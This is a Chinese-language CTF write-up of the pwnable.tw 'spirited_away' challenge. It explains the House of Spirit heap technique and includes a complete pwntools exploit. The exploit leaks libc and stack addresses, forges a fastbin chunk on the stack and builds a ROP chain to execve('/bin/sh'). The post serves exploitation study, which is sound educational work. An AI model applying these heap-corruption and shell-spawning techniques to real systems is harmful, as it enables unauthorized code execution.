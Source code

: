 ```yaml
---
title: House of Spirit
date: 2019-03-02 19:35:06
tags: notfinished 
layout: post
---
```

house of sprit:sprited away
<!--more-->

# 0x00
应该spirit 来源于这里
https://pwnable.tw/challenge/#22

spirited away

# analysis
主要的功能是写影评.

```python
➜  spirited_away checksec spirited_away 
[*] '/home/n132/Desktop/spirited_away/spirited_away'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

程序比较简单输入名字输入为啥看这部电影 感受如何.

# 漏洞点
主要的漏洞点也比较常规.
`sprintf(&v1, "%d comment so far. We will review them as soon as we can", cnt);`
```
char v1; // [esp+10h] [ebp-E8h]
size_t nbytes; // [esp+48h] [ebp-B0h]
```
这里只要cnt长度>`(0x38-54)=3`
v1可以溢出覆盖到nbyte
原本nbyte=0x3c
会被覆盖成`n`也就是`0x6e`

然后就可以溢出到其他地方.
主要是通过这题讲讲一个比较常见的House of 系列
# House of spirite
我的浅薄地认为House of spirite 是利用已有可控的区域，将其伪造成chunk的head & next chunk 的head，然后利用fastbin atk或者其他技巧扩大已有可控区域.
如图
```python
0x0804a010:
------------------
|xxxxxxx|    0x21|<==可控区域
------------------
|xxxxxxxxxxxxxxxx|<==x为不可控区域
------------------
|xxxxxxx|    0x21|<==可控区域
------------------


fastbin:

[0x20] fastbin[2]:-->0x804b000-->0
```
我门通过某些手段做fastbin atk 改写0x804b010 为 0x0804a010那么

```
0x0804a010:
------------------
|xxxxxxx|    0x21|<==可控区域
------------------
|xxxxxxxxxxxxxxxx|<==x为不可控区域
------------------
|xxxxxxx|    0x21|<==可控区域
------------------


fastbin:

[0x20] fastbin[2]:-->0x804b000-->0x0804a010
```
这样我们malloc 两次就可以控制原本不可控区域.

# 思路
例如此题中我们可以控制的区域大多在栈上
溢出之后找一个stack 地址将其输出.
我们可以用comment在栈上完成fakechunk
然后通过溢出做fast bin atk 控制栈.
做rop getshell

# exp
```python
from pwn import *
def sname(name):
	p.readuntil("Please enter your name: ")
	p.send(name)
def sage(age):
	p.sendlineafter("Please enter your age: ",str(age))
def sr(reason):
	p.sendafter("Why did you came to see this movie? ",reason)
def sc(comment):
	p.sendlineafter("Please enter your comment: ",comment)
def raw(reason='nier',name='nier',age=1,comment="nier"):
	sname(name)
	sage(age)
	sr(reason)
	sc(comment)
def sall(reason='nier',name='nier',age=1,comment="nier"):
	sname(name)
	sage(age)
	sr(reason)
	sc(comment)
	p.sendlineafter("Would you like to leave another comment? <y/n>: ","y")
def sall_10(reason='nier',name='nier',age=1,comment="nier"):

	sage(age)
	sr(reason)

	p.sendlineafter("Would you like to leave another comment? <y/n>: ","y")
p=process("./spirited_away")
#p=remote("chall.pwnable.tw",10204)
#context.log_level='debug'
libc=ELF("spirited_away").libc
raw("A"*0x18)
p.readuntil("A"*0x18)
libc.address = u32(p.recv(4))-libc.sym['_IO_file_sync']-7
p.recvuntil("comment? <y/n>: ")
p.send("y")
base=libc.address
raw("A"*56)
p.readuntil('A'*56)
stack=u32(p.read(4))
p.sendlineafter("<y/n>: ","y")

log.warning(hex(base))
log.warning(hex(stack))
for x in range(8):
	sall()
for x in range(90):
	sall_10()
for x in range(4):
	sall()
sname("yy")
sage(1)
sr(p32(0x41)*20)
sc("A"*0x50+p32(1)+p32(0xffffcff8-0xffffd048+stack-0x18))
p.sendlineafter("<y/n>: ","y")
libc.address=base
sname("/bin/sh".ljust(4*18,'\x00')+p32(0xdeadbeef)+p32(libc.symbols['execve'])+p32(0xdeadbeef)+p32(0xffffcff8-0xffffd048+stack-0x18)+p32(0)+p32(0))
sage(1)
sr("no")
sc("no")
p.sendlineafter("<y/n>: ","n")
#p.sendline("cat /home/spirited_away/flag")
p.interactive("nier>>")
```



[1]: https://github.com/B3t4M3Ee/banana/tree/master/Pwn/heap_trick/house%20of%20X/house%20of%20spirite